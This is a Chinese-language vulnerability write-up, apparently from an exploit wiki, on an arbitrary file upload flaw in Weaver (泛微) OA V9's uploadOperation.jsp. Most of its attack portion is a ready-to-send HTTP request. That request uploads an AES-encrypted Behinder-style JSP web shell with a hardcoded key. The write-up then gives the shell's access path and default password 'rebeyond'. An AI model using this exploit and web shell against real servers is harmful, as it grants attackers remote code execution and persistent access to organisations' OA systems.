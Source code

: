 # 泛微OA V9 任意文件上传

## 漏洞描述

泛微OA V9 存在文件上传接口导致任意文件上传

## 漏洞影响

> [!NOTE]
>
> 泛微OA V9

## 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制

![](http://wikioss.peiqi.tech/vuln/fanwei-14.png)

利用非常简单,只要对着

127.0.0.1/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以,利用简单,自评高危!!

![](http://wikioss.peiqi.tech/vuln/fanwei-15.png)

然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp

![](http://wikioss.peiqi.tech/vuln/fanwei-16.png)

请求包

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="peiqi.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/peiqi.jsp

默认密码 rebeyond